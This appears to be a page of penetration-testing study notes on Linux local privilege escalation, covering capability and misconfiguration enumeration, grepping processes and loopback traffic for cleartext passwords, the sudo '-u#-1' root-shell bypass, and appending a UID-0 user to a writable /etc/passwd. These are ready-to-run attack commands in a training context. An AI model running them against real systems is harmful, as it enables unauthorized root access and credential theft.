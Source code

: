 >[!code]- Capabilities
>Run **getcap** with the **-r** parameter to perform a recursive search starting from the root folder /, filtering out any errors from the terminal output:
>```bash
>joe@debian-privesc:~$ getcap -r / 2>/dev/null
>```

>[!code]- Automated enumeration
>`/usr/bin/unix-privesc-check [ standard | detailed ]` is a pre-installed bash script which performs a number of checks to find system misconfigurations that can be abused for local privilege escalation.
>
>---
>_LinEnum_ and _LinPeas_ are automated enumeration tools which are tailored to providing privilege escalation information.

>[!code]- Credential harvesting
>Credentials may be stored in an environment variable. List environment variables with the `env` command.
>
>If a variable also appears in the **.bashrc** file as `export VARIABLE=value`, it means its a permanent variable (which gets loaded when a user's shell is launched).
>
>---
>Find running process that use cleartext passwords:
>```bash
>joe@debian-privesc:~$ watch -n 1 "ps -aux" | grep "pass"
>```
>
>---
>
>Find network traffic containing cleartext password:
>```bash
>joe@debian-privesc:~$ sudo tcpdump -i lo -A | grep "pass"
>```

>[!code]- Sudo permissions
>`sudo -l` lists the commands the current user can run with elevated privileges.
>`sudio -i` runs an interactive shell as root (if permitted).

>[!code]- Sudo exploit (< 1.8.28)
>###### Command to obtain root shell
>```powershell
>sudo -u#-1 /bin/bash
>```

>[!code]- Writeable files
>###### /etc/passwd
>```powershell
>pw=$(openssl passwd Password123); echo "r00t:${pw}:0:0:root:/root:/bin/bash" >> /etc/passwd
>
># Offsec method
>openssl passwd -1 -salt GitRekt pwn1337
>echo 'GitRekt:$1$GitRekt$FzDARwVLdGr6swDMInZda1:0:0::/root:/bin/bash' >> /etc/passwd
>```
>###### General
>```powershell
>find /etc -type f -writable 2> /dev/null
>```
